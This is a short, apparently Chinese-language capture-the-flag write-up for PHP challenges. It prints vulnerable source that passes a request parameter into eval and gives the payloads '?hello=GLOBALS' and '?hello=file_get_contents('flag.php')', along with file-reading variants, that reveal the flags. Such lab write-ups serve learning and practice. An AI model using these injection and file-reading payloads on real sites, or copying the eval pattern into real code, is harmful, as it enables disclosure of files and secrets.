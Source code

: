 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`
# 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
以下junj
`file_get_contents('flag.php')`
`file('flag.php')`
`show_source('flag.php')`
# 爆破-3
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUzMjk0NzIxNywtMTc4Njk2NDMyOCw0NT
kzOTYxNTVdfQ==
-->